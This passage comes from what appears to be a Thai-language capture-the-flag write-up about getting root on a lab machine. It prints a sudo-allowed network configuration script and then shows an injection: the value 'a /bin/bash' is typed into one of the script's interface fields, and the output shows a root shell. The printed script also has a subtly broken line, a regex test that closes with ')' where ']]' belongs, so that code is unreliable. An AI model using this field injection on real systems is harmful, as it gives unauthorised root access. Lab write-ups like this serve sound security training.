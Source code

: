 ซึ่งหาเรา cat ไฟล์ดังกล่าวมาจะพบว่ามีการเรียกใช้ ifcfg-XXXX ซึ่งเป็น network-scripts
```bash
[guly@networked ~]$ cat /usr/local/sbin/changename.sh
cat /usr/local/sbin/changename.sh
#!/bin/bash -p
cat > /etc/sysconfig/network-scripts/ifcfg-guly << EoF
DEVICE=guly0
ONBOOT=no
NM_CONTROLLED=no
EoF

regexp="^[a-zA-Z0-9_\ /-]+$"

for var in NAME PROXY_METHOD BROWSER_ONLY BOOTPROTO; do
        echo "interface $var:"
        read x
        while [[ ! $x =~ $regexp ); do
                echo "wrong input, try again"
                echo "interface $var:"
                read x
        done
        echo $var=$x >> /etc/sysconfig/network-scripts/ifcfg-guly
done
  
/sbin/ifup guly0

```


```bash
[guly@networked ~]$ sudo /usr/local/sbin/changename.sh
sudo /usr/local/sbin/changename.sh
interface NAME:
ice
ice
interface PROXY_METHOD:
a /bin/bash
a /bin/bash
interface BROWSER_ONLY:
b
b
interface BOOTPROTO:
c
c
[root@networked network-scripts]# whoami
whoami
root
[root@networked network-scripts]# 
```

# PWNED 